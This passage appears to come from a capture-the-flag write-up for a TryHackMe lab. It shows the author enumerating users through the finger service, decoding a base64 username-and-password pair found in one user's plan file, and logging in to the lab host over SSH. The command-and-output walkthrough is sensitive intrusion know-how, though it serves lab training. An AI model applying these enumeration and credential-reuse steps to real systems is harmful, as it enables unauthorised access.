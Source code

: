 -> Users ubuntu and root seem interesting but they don't give any results. Going back to the webserver, there were names mentioned such as Magnus, Fabiano, and Hikaru. These could be potential users on the system. Let's try to finger them. 

```┌──(kali㉿kali)-[~/…/THM/industrialintrustion/task15/finger-user-enum-1.0]
└─$ finger magnus@10.10.230.163
Login: magnus                           Name: 
Directory: /home/magnus                 Shell: /bin/bash
Never logged in.
No mail.
No Plan.
```

```                                                                                      
┌──(kali㉿kali)-[~/…/THM/industrialintrustion/task15/finger-user-enum-1.0]
└─$ finger hikaru@10.10.230.163
Login: hikaru                           Name: 
Directory: /home/hikaru                 Shell: /bin/bash
Never logged in.
No mail.
Project:
http://localhost
Plan:
Working on AI chess bot for King's Square Chess Club.
```

```┌──(kali㉿kali)-[~/…/THM/industrialintrustion/task15/finger-user-enum-1.0]
└─$ finger fabiano@10.10.230.163
Login: fabiano                          Name: 
Directory: /home/fabiano                Shell: /bin/bash
Never logged in.
No mail.
Project:
Reminders
Plan:
ZmFiaWFubzpvM2pWVGt0YXJHUUkwN3E=
```

-> User fabiano had a base64 encoded text in his plan. Decoding this, we get what could only be his credentials. 

```┌──(kali㉿kali)-[~/…/THM/industrialintrustion/task15/finger-user-enum-1.0]
└─$ echo "ZmFiaWFubzpvM2pWVGt0YXJHUUkwN3E=" | base64 -d
fabiano:o3jVTktarGQI07q
```

-> We can now login to ssh using these creds

```┌──(kali㉿kali)-[~/…/THM/industrialintrustion/task15/finger-user-enum-1.0]
└─$ ssh fabiano@10.10.230.163                     
The authenticity of host '10.10.230.163 (10.10.230.163)' can't be established.
ED25519 key fingerprint is SHA256:Y1G6P8uP+qxABQXcmSa56gl1bRXOGPEF8b0lz9Boejc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.230.163' (ED25519) to the list of known hosts.
fabiano@10.10.230.163's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.8.0-1030-aws x86_64)

*Omitted*

fabiano@tryhackme-2204:~$ whoami
fabiano
```
